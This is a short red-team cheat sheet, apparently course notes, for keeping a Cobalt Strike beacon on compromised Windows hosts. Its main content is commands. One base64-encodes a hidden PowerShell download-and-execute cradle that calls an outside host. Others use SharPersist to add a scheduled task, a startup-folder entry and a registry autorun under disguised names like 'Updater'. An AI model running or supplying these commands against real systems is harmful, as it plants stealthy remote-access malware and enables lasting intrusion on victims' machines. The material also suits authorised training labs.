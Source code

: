 # Task Scheduler persistence

Create base64 command to download and execute your beacon

```bash
$str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
...(copy contents)
```

Create a task through the beacon interactive shell

```bash
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAA..." -n "Updater" -m add -o hourly
```

---

# StartUp Folder persistence

Create base64 command to download and execute your beacon

```bash
$str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
...(copy contents)
```

Create a task through the beacon interactive shell

```bash
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAA..." -f "UserEnvSetup" -m add
```

---

# Registry Autorun persistence

Create a http payload in cobalt strike

```bash
cd C:\Windows\Tasks
upload C:\Payloads\http_x64.exe
mv http_x64.exe Updater.exe
```

Create an AutoRun through the beacon interactive shell

```bash
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\Windows\Tasks\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```

---

# Hunting for COM Hijacks

```bash
https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/38149212-hunting-for-com-hijacks
```

---

# TODO (certificates)
